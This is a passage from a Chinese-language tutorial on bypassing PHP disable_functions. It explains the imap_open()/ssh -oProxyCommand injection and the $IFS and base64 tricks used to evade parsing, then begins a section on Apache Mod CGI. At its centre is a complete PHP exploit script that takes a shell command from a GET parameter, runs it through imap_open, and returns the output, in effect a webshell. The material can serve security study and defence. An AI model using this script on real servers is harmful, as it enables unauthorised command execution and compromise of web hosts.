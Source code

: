  简单地说，就是imap_open()函数会调用到rsh的程序，而该程序中会调用execve系统调用来实现rsh的调用，其中的邮件地址参数是由imap_open()函数的mailbox参数传入，同时，由于rsh命令是ssh命令的符号链接，所以当我们利用ssh的-oProxyCommand参数来构造恶意mailbox参数时就能执行恶意命令。

-oProxyCommand参数

ProxyCommand指定用于连接服务器的命令。

 但是我们不能直接将上述命令直接转移到PHP脚本来代替imap_open服务器地址，因为在解析时它会将空格解释为分隔符和斜杠作为标志，但是**可以使用$IFS这个shell变量来替换空格符或使用\t替换。还可以在bash中使用Ctrl + V热键和Tab键插入标签。绕过斜杠可以使用base64来进行绕过。**


## 攻击利用

 先判断是否存在imap_open()函数，然后构造exp执行通过外部GET输入的命令然后保存结果到本地文件中，最后输出结果文件内容，**注意sleep(5)是为了等imap_open()函数执行完、因为该函数执行时需要DNS查询会存在延时**

```php
<?php
error_reporting(0);
if (!function_exists('imap_open')) {
        die("no imap_open function!");
}
$server = "x -oProxyCommand=echo\t" . base64_encode($_GET['cmd'] . ">/tmp/cmd_result") . "|base64\t-d|sh}";
//$server = 'x -oProxyCommand=echo$IFS$()' . base64_encode($_GET['cmd'] . ">/tmp/cmd_result") . '|base64$IFS$()-d|sh}';
imap_open('{' . $server . ':143/imap}INBOX', '', ''); // or var_dump("\n\nError: ".imap_last_error());
sleep(5);
echo file_get_contents("/tmp/cmd_result");
?>
```

**这里替换空格符的\t也可以使用$IFS来绕过**

# 0x06 利用Apache Mod CGI

## 使用条件

- Linux操作系统
- Apache + PHP（apache使用apache_mod_php）
- Apache开启了cgi、rewrite
- Web目录给了AllowOverride权限
- 当前目录可写

## 原理简述

PHP的连接方式有三种，分为apache2-module模式，CGI模式，FastCGI模式。

可以在phpinfo()的Server API中查看

-  早期的Web服务器，只能响应浏览器发来的HTTP静态资源的请求，并将存储在服务器中的静态资源返回给浏览器。但是逐渐开始出现了动态技术，Web服务器并不能直接运行动态脚本，为了让Web服务器与外部应用程序(CGI程序)之间数据能够互通，于是出现了CGI(Common Gateway Interface)通用网关接口。简单理解，可以认为CGI是Web服务器和运行在其上的应用程序之间进行"交流"的约定。
